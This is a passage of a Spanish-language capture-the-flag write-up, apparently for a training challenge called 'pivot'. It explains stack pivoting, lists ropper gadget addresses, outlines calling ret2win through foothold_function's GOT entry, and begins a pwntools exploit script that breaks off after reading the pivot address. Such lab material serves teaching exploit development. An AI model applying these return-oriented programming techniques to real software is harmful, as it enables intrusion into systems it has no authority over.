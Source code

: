 Para este reto utilizaremos una técnica llamada [[Stack pivoting]]. Ya que disponemos de los gadgets necesarios para ello:

```bash
ropper -f pivot --stack-pivot
[...]
Gadgets
=======
0x00000000004009be: xchg esp, eax; ret;
0x00000000004009bd: xchg rsp, rax; ret;
```

```
0x00000000004009bb: pop rax; ret;
```

## Resumen

Tenemos que llamar a *ret2win*:

1. Primero llamaremos a *foothold_function* para actualizar su entrada de la *.got.plt*.
2. Cargamos la dirección de *foothold_function*, primero desde la *.got* y luego resolvemos esa dirección para tener la efectiva.
3. Añadimos el offset entre *ret2win* y *foothold_function* a la dirección que hemos cargado.
4. Llamamos a dicha dirección.

## Buscando los gadgets necesarios

Utilizando *ropper* encontramos los gadgets que utilizaremos:

```
0x00000000004006b0: call rax;
0x00000000004009c4: add rax, rbp; ret;
0x00000000004007c8: pop rbp; ret;
0x00000000004009c0: mov rax, qword ptr [rax]; ret;
```

## Script

Ya podemos crear un script en *python* utilizando *pwntools*:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

context.update(arch='amd64')
exe = './pivot'


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        exit()
    else:
        return process([exe] + argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

# Leer la dirección de pivot del output del binario
io.recvuntil(b':')
pivot_address = io.recvline().strip()  # Capturar la línea con la dirección
```